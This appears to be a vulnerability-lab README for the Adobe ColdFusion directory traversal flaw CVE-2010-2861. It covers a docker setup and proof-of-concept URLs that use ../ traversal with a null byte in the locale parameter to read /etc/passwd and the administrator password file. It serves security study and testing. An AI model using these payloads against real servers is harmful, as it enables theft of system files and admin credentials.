

Adobe ColdFusion Directory Traversal Vulnerability (CVE-2010-2861)¶
Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.
There is a directory traversal vulnerability in the Adobe ColdFusion 9.0.1 and earlier, which allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.
Environment setup¶
Execute the following command to start Adobe CouldFusion 8.0.1 server:
docker compose up -d
The server startup may take 1~5 minutes. After that, visit http://your-ip:8500/CFIDE/administrator/enter.cfm to see the initialization page, enter the password admin to initialize the entire server.
POC¶
Read the file /etc/passwd via http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en:

Read the background administrator password via http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en: